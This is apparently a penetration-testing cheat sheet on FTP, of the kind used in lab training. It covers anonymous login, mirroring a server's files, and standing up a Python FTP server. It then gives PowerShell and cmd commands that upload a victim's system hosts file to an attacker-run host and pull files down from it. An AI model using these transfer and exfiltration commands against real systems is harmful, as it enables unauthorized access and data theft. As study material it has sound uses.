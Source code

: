 ```ftp
ftp -p <IP>
```
#### Anonymous Login
```shell
ftp 10.129.14.136
```
```ftp
anonymous
passive
ls
```
#### TSL/SSL encryption
```shell
openssl s_client -connect 10.129.14.136:21 -starttls ftp
```
## FTP Downloads
#### Download All Available Files
```shell
wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136
```
#### pyftpdlib
```shell
sudo pip3 install pyftpdlib
```
#### Setting up a Python3 FTP Server
```shell
sudo python3 -m pyftpdlib --port 21
```
#### Transfering Files from an FTP Server Using PowerShell
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
#### Create a Command File for the FTP Client and Download the Target File
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
##### FTP
```ftp
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye
```
## FTP Uploads
```shell
sudo python3 -m pyftpdlib --port 21 --write
```
#### PowerShell Upload File
```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
#### Create a Command File for the FTP Client to Upload a File
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.

ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

